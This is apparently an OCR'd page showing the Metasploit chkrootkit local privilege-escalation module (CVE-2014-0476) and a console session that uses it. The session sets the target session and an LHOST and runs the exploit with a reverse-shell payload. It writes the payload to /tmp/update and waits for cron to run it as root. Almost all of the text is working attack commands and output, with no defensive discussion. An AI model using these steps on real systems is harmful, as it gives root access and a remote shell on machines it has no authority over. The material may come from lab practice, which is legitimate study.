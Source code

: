 ```
Payload information:

Description:
  Chkrootkit before 0.50 will run any executable file named 
  /tmp/update as root, allowing a trivial privilege escalation. 
  WfsDelay is set to 24h, since this is how often a chkrootkit scan is 
  scheduled by default.

References:
  https://cvedetails.com/cve/CVE-2014-0476/
  OSVDB (107710)
  https://www.exploit-db.com/exploits/33899
  http://www.securityfocus.com/bid/67813
  https://cwe.mitre.org/data/definitions/20.html
  https://seclists.org/oss-sec/2014/q2/430
```

```
msf5 exploit(unix/local/chkrootkit) > set CHKROOTKIT /bin/chkrootkit
CHKROOTKIT => /bin/chkrootkit
msf5 exploit(unix/local/chkrootkit) > set SESSION 2
SESSION => 2
msf5 exploit(unix/local/chkrootkit) > set LHOST 192.127.83.2
LHOST => 192.127.83.2
msf5 exploit(unix/local/chkrootkit) > exploit

[*] Started reverse TCP double handler on 10.1.0.5:4444 
[!] Rooting depends on the crontab (this could take a while)
[*] Payload written to /tmp/update
[*] Waiting for chkrootkit to run via cron...
^C[*] Exploit completed, but no session was created.
msf5 exploit(unix/local/chkrootkit) > show options

Module options (exploit/unix/local/chkrootkit):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   CHKROOTKIT  /bin/chkrootkit  yes       Path to chkrootkit
   SESSION     2                yes       The session to run this module on.


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.1.0.5         yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/local/chkrootkit) > set LHOST 192.127.83.2
LHOST => 192.127.83.2
msf5 exploit(unix/local/chkrootkit) > exploit

[*] Started reverse TCP double handler on 192.127.83.2:4444 
[!] Rooting depends on the crontab (this could take a while)
[*] Payload written to /tmp/update
[*] Waiting for chkrootkit to run via cron...
```